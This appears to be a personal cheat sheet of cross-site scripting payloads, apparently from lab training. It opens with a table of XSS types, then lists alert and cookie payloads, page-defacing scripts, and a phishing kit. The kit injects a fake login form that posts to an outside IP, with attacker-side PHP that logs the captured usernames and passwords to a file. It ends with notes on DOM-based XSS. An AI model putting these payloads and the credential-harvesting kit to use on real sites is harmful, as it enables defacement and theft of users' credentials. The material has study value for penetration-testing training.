 
| Stored (Persistent)                                                | Reflective (None-Persistent)                            | DOM-Based                                                |
| ------------------------------------------------------------------ | ------------------------------------------------------- | -------------------------------------------------------- |
| User input is stored on the server, and is executed when retrieved | User input is process server side without being stored  | User input is processed client side without being stored |
### Payloads - Classics

```bash
<script>alert("XSS")</script>
<script>alert(window.origin)</script>
<script>alert(document.cookie)</script>
<img src="" onerror=alert(window.origin)>
<img src="https://x.x.x.x">
```

### Defacing

```bash
<script>document.title = 'Title Text'</script>
<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://x.x.x.x/images/image.svg"</script>
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Header Text</h1><p style="color: white">by <img src="https://x.x.x.x/images/image.svgg" height="25px" alt="ALT Text"> </p></center>'</script>
```

### Phishing

Fake login form:

```bash
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.87><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

Attacker side - save as index.php:

```bash
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    #header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Start PHP server:

```bash
sudo php -S 0.0.0.0:80
```

Creds should be save in `creds.txt`
#### DOM-Based

The `#` signed is a client side parameter processed by the web browser

![[Pasted image 20241119153420.png]]

Does not appear in the View Page Source:

![[Pasted image 20241119153935.png]]

Does appear in the development tools:

![[Pasted image 20241119154106.png]]



